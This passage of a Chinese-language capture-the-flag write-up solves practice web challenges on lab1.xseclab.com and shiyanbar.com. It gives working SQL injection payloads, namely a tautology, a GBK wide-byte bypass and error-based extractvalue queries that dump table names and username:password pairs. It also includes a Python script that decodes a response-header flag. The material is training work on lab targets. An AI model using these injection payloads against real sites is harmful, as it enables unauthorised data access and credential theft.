 	```
	
3. [http://lab1.xseclab.com/sqli2\_3265b4852c13383560327d1c31550b60/index.php][28]
	密码随便输入


4. [http://lab1.xseclab.com/sqli3\_6590b07a0a39c8c27932b92b0e151456/index.php][29]

	```
	payload：
	http://lab1.xseclab.com/sqli3\_6590b07a0a39c8c27932b92b0e151456/index.php?id=1 or 1=1
	```

5. [http://lab1.xseclab.com/sqli4\_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=1][30]
	宽字节注入，在其他没头绪的时候必须考虑这个了，哎，而且题目都说过滤了
	
	```
	还有响应头：Content-Type：text/html; charset=gb2312
	payload
	http://lab1.xseclab.com/sqli4\_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=1%a0%27 or 1=1 limit 2,1%23
	```

6. [http://lab1.xseclab.com/sqli5\_5ba0bba6a6d1b30b956843f757889552/index.php?start=0&num=1][31]
	利用报错注入
	
	```
	http://lab1.xseclab.com/sqli5\_5ba0bba6a6d1b30b956843f757889552/index.php?start=7&num=1 procedure analyse(extractvalue(1,concat(0x3a,database())),1) ```    
	数据库：mydbs
	http://lab1.xseclab.com/sqli5\_5ba0bba6a6d1b30b956843f757889552/index.php?start=7&num=1 procedure analyse(extractvalue(1,concat(0x3a,(select table\_name from information\_schema.tables where table\_schema=0x6d79646273 limit 0,1 ))),1)
	爆表
	http://lab1.xseclab.com/sqli5\_5ba0bba6a6d1b30b956843f757889552/index.php?start=7&num=1 procedure analyse(extractvalue(1,concat(0x3a,(select concat(username,0x3a,password) from user limit 2,1 ))),1)
	爆数据
	```
## 4. 写点脚本的

注意看响应头，You must do it as fast as you can!，这个手速是不行的，必须编程获取后解码，跟着post数据：key=XXXXXXXXXXXXX

1. [http://ctf4.shiyanbar.com/web/10.php][32]

	脚本如下

	```
	import requests   
	import base64  
    
	url='http://ctf4.shiyanbar.com/web/10.php'   
	req=requests.get(url)  
	print req.text  
	key=req.headers['FLAG']()  
	key=base64.b64decode(key)  
	key=key.split(':')[1]().strip()  
	data={'key':key}  
	r=requests.post(url,data=data)   
	print(r.text)  
	```


[1]:	http://lab1.xseclab.com/base1_4a4d993ed7bd7d467b27af52d2aaa800/index.php
[2]:	http://lab1.xseclab.com/base66082c908819e105c378eb93b6631c4d3/index.php
[3]:	http://lab1.xseclab.com/base1%5C_0ef337f3afbe42d5619d7a36c19c20ab/index.php
[4]:	http://lab1.xseclab.com/base1%5C_0ef337f3afbe42d5619d7a36c19c20ab/index.php
[5]:	http://lab1.xseclab.com/base1%5C_0ef337f3afbe42d5619d7a36c19c20ab/index.php
[6]:	http://lab1.xseclab.com/base7%5C_eb68bd2f0d762faf70c89799b3c1cc52/index.php
[7]:	http://ctf1.shiyanbar.com/basic/catch/
[8]:	http://lab1.xseclab.com/base8%5C_0abd63aa54bef0464289d6a42465f354/index.php
[9]:	http://lab1.xseclab.com/base10%5C_0b4e4866096913ac9c3a2272dde27215/index.php
[10]:	http://lab1.xseclab.com/xss1%5C_30ac8668cd453e7e387c76b132b140bb/index.php
[11]:	http://ctf1.shiyanbar.com/basic/js/index.asp
[12]:	http://lab1.xseclab.com/base12%5C_44f0d8a96eed21afdc4823a0bf1a316b/index.php
[13]:	http://ctf5.shiyanbar.com/DUTCTF/1.html
[14]:	http://lab1.xseclab.com/realxss1%5C_f123c17dd9c363334670101779193998/index.php
[15]:	http://lab1.xseclab.com/realxss1%5C_f123c17dd9c363334670101779193998/index.php
[16]:	http://lab1.xseclab.com/realxss3%5C_9b28b0ff93d0b0099f5ac7f8bad3f368/index.php
[17]:	http://ctf8.shiyanbar.com/aspaudit/
[18]:	http://ctf8.shiyanbar.com/phpaudit/
[19]:	http://ctf1.shiyanbar.com/web/4/index.php
[20]:	http://ctf5.shiyanbar.com/DUTCTF/index.php
[21]:	http://ctf1.shiyanbar.com/web/5/index.php
[22]:	http://ctf4.shiyanbar.com/web/false.php
[23]:	http://ctf4.shiyanbar.com/web/Session.php
[25]:	http://ctf4.shiyanbar.com/web/Session.php
[26]:	http://ctf5.shiyanbar.com:8080/9/asp.asp
[27]:	http://ctf5.shiyanbar.com/8/index.php?id=1
[28]:	http://lab1.xseclab.com/sqli2%5C_3265b4852c13383560327d1c31550b60/index.php
[29]:	http://lab1.xseclab.com/sqli3%5C_6590b07a0a39c8c27932b92b0e151456/index.php
[30]:	http://lab1.xseclab.com/sqli4%5C_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=1
[31]:	http://lab1.xseclab.com/sqli5%5C_5ba0bba6a6d1b30b956843f757889552/index.php?start=0&num=1
[32]:	http://ctf4.shiyanbar.com/web/10.php
[35]:	http://ctf4.shiyanbar.com/web/10.php